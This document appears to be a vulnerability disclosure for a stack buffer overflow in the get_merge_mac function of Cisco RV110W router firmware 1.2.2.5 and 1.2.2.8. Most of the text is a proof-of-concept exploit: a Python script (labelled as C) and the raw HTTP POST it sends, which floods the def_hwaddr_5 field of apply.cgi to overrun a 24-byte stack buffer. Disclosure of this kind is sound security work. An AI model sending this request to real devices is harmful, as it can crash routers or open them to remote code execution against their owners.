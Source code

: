 
# Overview
Firmware download website: [https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.5](https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.5)
[https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.8](https://software.cisco.com/download/home/283879340/type/282487380/release/1.2.2.8)

# Affected version
CISCO RV110W  Firmware 1.2.2.5,1.2.2.8
# Vulnerability details
The CISCO RV110W 1.2.2.5,1.2.2.8 firmware has a stack overflow vulnerability in get_merge_mac function. The variable `def_hwaddr_%d`receives the parameter from a POST request.  In line 33 of the code, the stract function will merge it with the variable a2. It is important to note that in the calling function, the a2 variable is stack-allocated and has a size of only 24 characters. If the variable exceeds this length, it may result in a buffer overflow vulnerability, potentially leading to remote code execution or denial-of-service attacks.  
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1720359626844-c9525905-76df-491a-b971-b517dad4ec5c.png#averageHue=%23fdfdfd&clientId=udf29107c-170e-4&from=paste&height=768&id=u888876eb&originHeight=1209&originWidth=865&originalType=binary&ratio=1.5749999284744263&rotation=0&showTitle=false&size=85626&status=done&style=none&taskId=u1402795a-0c58-4932-94fb-96282f2658a&title=&width=549.2063741474927)

![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1720359775541-d5c20add-eb97-4209-bdd9-41d110457c40.png#averageHue=%23fbfbfb&clientId=udf29107c-170e-4&from=paste&height=192&id=ucd0f4874&originHeight=302&originWidth=877&originalType=binary&ratio=1.5749999284744263&rotation=0&showTitle=false&size=29356&status=done&style=none&taskId=u434917db-e1da-4180-996e-d36d2e845ce&title=&width=556.8254221125446)
# POC
```c
import requests

url = "https://192.168.2.2/apply.cgi;session_id=e35ab05a51dd1f8c374cb5003d4261d8"
headers = {
    "Host": "192.168.2.2",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "https://192.168.2.2",
    "Referer": "https://192.168.2.2/macclone.asp;session_id=e35ab05a51dd1f8c374cb5003d4261d8",
    "Upgrade-Insecure-Requests": "1",
    "Sec-Fetch-Dest": "iframe",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-User": "?1",
    "Priority": "u=4",
    "Te": "trailers",
    "Connection": "close"
}

data = {
    "submit_button": "macclone",
    "submit_type": "",
    "change_action": "",
    "gui_action": "Apply",
    "mac_clone_enable": "1",
    "all_start": "",
    "_mac_clone_enable": "on",
    "hwaddr_start": "",
    "def_hwaddr": "6",
    "def_hwaddr_0": "B8",
    "def_hwaddr_1": "62",
    "def_hwaddr_2": "1F",
    "def_hwaddr_3": "51",
    "def_hwaddr_4": "8A",
    "def_hwaddr_5": "111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111",
    "hwaddr_end": "",
    "webpage_end": "",
    "all_end": ""
}

response = requests.post(url, headers=headers, data=data, verify=False)

print(response.text)
```
```c
POST /apply.cgi;session_id=e35ab05a51dd1f8c374cb5003d4261d8 HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 657
Origin: https://192.168.2.2
Referer: https://192.168.2.2/macclone.asp;session_id=e35ab05a51dd1f8c374cb5003d4261d8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4
Te: trailers
Connection: close

submit_button=macclone&submit_type=&change_action=&gui_action=Apply&mac_clone_enable=1&all_start=&_mac_clone_enable=on&hwaddr_start=&def_hwaddr=6&def_hwaddr_0=B8&def_hwaddr_1=62&def_hwaddr_2=1F&def_hwaddr_3=51&def_hwaddr_4=8A&def_hwaddr_5=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&hwaddr_end=&webpage_end=&all_end=
```
